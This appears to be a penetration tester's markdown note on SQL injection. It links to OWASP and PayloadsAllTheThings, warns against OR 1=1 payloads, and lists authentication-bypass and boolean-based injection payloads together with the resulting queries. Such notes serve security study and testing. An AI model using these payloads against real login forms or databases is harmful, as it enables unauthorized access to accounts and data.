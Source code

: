 ```yaml
---
id: SQL-injection
aliases:
  - SQLi
tags:
  - Networking/Services/SQL/Injection
links: "[[SQL]]"
---
```


# SQL injection

## Resourcers

- [OWASP - SQL Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection)
- [TCM Security - Avoid OR 1=1](https://tcm-sec.com/avoid-or-1-equals-1-in-sql-injections/)
- [GitHub - PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-remote-code-execution)

## DO NOT USE

```sql
# OR <true>
OR 1=1
' OR '1'='1
```

## Payloads

<!-- Payloads {{{-->
<details>
  <summary><b>Authentication bypass</b></summary>

```sql
admin'; -- -
```
```sql
SELECT * FROM users WHERE username = 'admin'; -- -' AND password = 'password'
```

</details>

___
<!-- }}} -->

<!-- Boolean {{{-->
<details>
  <summary><b>Boolean</b></summary>

```sql
admin' AND '1'='1 / ' AND '1'='2
```
```sql
SELECT * FROM articles WHERE author = 'admin' AND '1'='1'
```

</details>

___
<!-- }}} -->
